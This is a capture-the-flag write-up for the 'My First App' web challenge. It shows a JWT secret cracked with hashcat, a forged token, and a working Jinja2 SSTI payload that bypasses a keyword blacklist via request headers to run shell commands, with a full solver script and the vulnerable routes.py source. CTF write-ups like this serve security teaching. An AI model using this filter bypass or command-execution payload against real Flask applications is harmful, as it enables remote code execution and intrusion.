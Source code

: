 # My First App [32 Solves]

## Description

> I'm not much of a web developer, so my friends advised me to pay for a very expensive firewall to keep my first app secure from pesky hackers. Come check it out!
>
> Author: SteakEnthusiast
>
> `https://uoftctf-my-first-app.chals.io/`

## Solution

### Explore functionality

![1.png](img/1.png)

Input `test`:

![2.png](img/2.png)

Input username is output like `Welcome, <input>`.

In this time, Set-Cookie response header is set:

![cookie.png](img/cookie.png)

> Set-Cookie: auth_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QifQ.3YrDfbJi4rasftYXJzUBoun4A2OMpD2Bu_vqb7LRlDc; Path=/

### Step1: JWT weak HMAC secret

```console
$ JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QifQ.3YrDfbJi4rasftYXJzUBoun4A2OMpD2Bu_vqb7LRlDc

$ python3 ~/tools/jwt_tool/jwt_tool.py $JWT

        \   \        \         \          \                    \
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.6                \______|             @ticarpi

Original JWT:

=====================
Decoded Token Values:
=====================

Token header values:
[+] alg = "HS256"
[+] typ = "JWT"

Token payload values:
[+] username = "test"

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------

$ hashcat -m 16500 $JWT /usr/share/wordlists/rockyou.txt --quiet
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QifQ.3YrDfbJi4rasftYXJzUBoun4A2OMpD2Bu_vqb7LRlDc:torontobluejays
```

JWT HMAC secret can be cracked and it is `torontobluejays`.
So we can rewrite username payload value.

### Step2: SSTI

```console
$ python3 ~/tools/jwt_tool/jwt_tool.py $JWT -I -pc username -pv '{{7*7}}' --sign hs256 -p torontobluejays

        \   \        \         \          \                    \
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.6                \______|             @ticarpi

Original JWT:

jwttool_9fbf10b5ef29a9432f9c97ad6d94168f - Tampered token - HMAC Signing:
[+] eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Int7Nyo3fX0ifQ.YgxJVPFH_IcLF9cW_GEEVEyhPQio_G6_n4ZiX7H0OjY
```

Set it to  auth_token cookie value and reload the page:

![ssti.png](img/ssti.png)

SSTI was detected.
However, there were significant restrictions on the available characters and words.
For example, `,[]"'_\/%` is not allowed.
This means that string such as `'__init__'` and `"__class__"` cannot be created.
Also, request query parameter is not allowed.
On the other hand, `request`, `origin` and `attr` are available so I came up with a payload to execute commands as follows:

- original SSTI payload: `{{ cycler.__init__.__globals__.os.popen('id').read() }}`
- [`request.origin`](https://flask.palletsprojects.com/en/3.0.x/api/#flask.Request.origin) can be used
- `"headers"` string: request header `Origin: headers` and `request.origin` is the same as `"headers"` so `request|attr(request.origin)` is the same as `request.headers`.
- `"__init__"` string: request header `init: __init__` and `(request|attr(request.origin)).init` is the same as `request.headers.init`, then `"__init__"`.
- Do the same for other necessary strings.
- To generate `cycler.__init__`, payload is `cycler | attr((request|attr(request.origin)).init)`
- To retrieve a value in dict, not an object property, use the `__getitem__()` method.
  e.g. `os` module can be got by `cycler | attr((request|attr(request.origin)).init) | attr((request|attr(request.origin)).glob) | attr((request|attr(request.origin)).gi)((request|attr(request.origin)).o)`.

### Solver

```python
import requests
import jwt

import string

requests.packages.urllib3.disable_warnings()
s = requests.Session()
# s.proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
s.verify = False

BASE_URL = "https://uoftctf-my-first-app.chals.io"
SECRET = "torontobluejays"


def main():
    blockchars = """,[]"'_\/%"""
    blockwords = [
        "global",
        "os",
        "config",
        "headers",
        "args",
        "list",
        "cookies",
        "data",
        "files",
        "form",
        "json",
        "url",
        "items",
        "mro",
        "base",
        "builtins",
        "popen",
        "last",
        "join",
    ]

    # OK: environ, blueprint, method, server, init
    # Useful: origin, referer (referrer in Flask request)

    # payload = args.PAYLOAD if args.PAYLOAD else "{{7*7}}"
    # payload = string.ascii_letters + string.digits + string.punctuation  # check available char

    # (request|attr(request.origin)).<arg>
    # original: {{ cycler.__init__.__globals__.os.popen('id').read() }}
    payload = (
        "{{ cycler"
        + "| attr((request|attr(request.origin)).init)"
        + "| attr((request|attr(request.origin)).glob)"
        + "| attr((request|attr(request.origin)).gi)((request|attr(request.origin)).o)"
        + "| attr((request|attr(request.origin)).po)((request|attr(request.origin)).cmd)"
        + "| attr((request|attr(request.origin)).read)()"
        + "| safe"
        + "}}"
    )

    for x in list(blockchars) + blockwords:
        assert x not in payload, f"Expected: {x} is not in {payload}"

    encoded_jwt = jwt.encode({"username": payload}, SECRET, algorithm="HS256")
    s.cookies.update({"auth_token": encoded_jwt})

    r = s.get(
        f"{BASE_URL}/dashboard",
        headers={
            "cmd": "cat flag.txt",
            "Origin": "headers",
            "init": "__init__",
            "glob": "__globals__",
            "gi": "__getitem__",
            "o": "os",
            "po": "popen",
            "read": "read",
        },
    )
    print(r.text)


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 solver.py | grep -oE 'uoftctf{.*}'
uoftctf{That_firewall_salesperson_scammed_me_:(}
```

## Flag

uoftctf{That_firewall_salesperson_scammed_me_:(}

## Post Exploitation

I got the source code routes.py and found that many characters and words was restricted by `restricted_stuff`:

<details><summary>routes.py</summary>

```python
from flask import Blueprint, request, render_template, make_response, redirect, url_for, render_template_string
from utils import create_jwt, decode_jwt

web = Blueprint('web', __name__, template_folder='templates', static_folder='static')

@web.route('/')
def home():
    if request.cookies.get('auth_token'):
        return redirect(url_for('web.dashboard'))
    return redirect(url_for('web.register'))

@web.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form['username']
        if not username.isalnum():
            return render_template('register.html', title="Register", error="Username must be alphanumeric.")
        token = create_jwt(username)
        response = make_response(redirect(url_for('web.dashboard')))
        response.set_cookie('auth_token', token)
        return response
    return render_template('register.html', title="Register")

@web.route('/dashboard')
def dashboard():
    if request.args:
        return "Whoa there bucko, did you forget I'm not a web developer? I don't know how to handle parameters yet!"
    
    token = request.cookies.get('auth_token')
    user_info = decode_jwt(token)
    print(user_info)
    if not user_info:
        return redirect(url_for('web.register'))
    
    if not str(user_info['username']).isascii():
        return f"It's not a pyjail XD. ASCII characters only please!"

    restricted_stuff = [',', '[', ']', '"', "'", '_', '\\','/','headers','url','path','data','json','args','cookies','files','form','flag', '%', 'os','system','popen','sys','module','mro','class','base','getitem','subprocess','application','config','list','dict','global','builtins','import','join','first','last','reverse','lower','upper','items','format']
    
    blocked = False
    
    found_strings = []
    
    for blacklisted in restricted_stuff:
        if blacklisted in str(user_info['username']):
            found_strings.append(blacklisted)
            blocked = True
    
    if blocked:
        title_text = "BLOCKED"
        content_html = f'''<div class="error-message">My very expensive firewall detected a malicious hacking attempt. Pls stop :(
        <br>Malicious stuff: {found_strings}</br>
        </div>'''
    else:
        title_text = f"Welcome, {user_info['username']}"
        content_html = "<p>This is my first app! I'm not much a web developer though, so there isn't much to do here, sorry!</p>"

    logout_form_html = '''
    <form action="{{ url_for('web.logout') }}" method="post">
        <input type="submit" value="Logout">
    </form>
    '''

    dashboard_template = f'''
    {{% extends "layout.html" %}}
    {{% block content %}}
    <div class="form-container">
    <h1 class="welcome-text">{title_text}</h1> 
    {content_html}
    {logout_form_html}
    </div>
    {{% endblock %}}
    '''
    return render_template_string(dashboard_template)



@web.route('/logout', methods=['POST'])
def logout():
    response = make_response(redirect(url_for('web.register')))
    response.set_cookie('auth_token', '', expires=0)
    return response
```

</details>

## References

- [API — Flask Documentation (3.0.x) | flask.Request](https://flask.palletsprojects.com/en/3.0.x/api/#flask.Request)
- [Template Designer Documentation — Jinja Documentation (3.1.x)](https://jinja.palletsprojects.com/en/3.1.x/templates/#jinja-filters.attr)
- [Server Side Template Injection - Payloads All The Things](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/#exploit-the-ssti-by-calling-ospopenread)
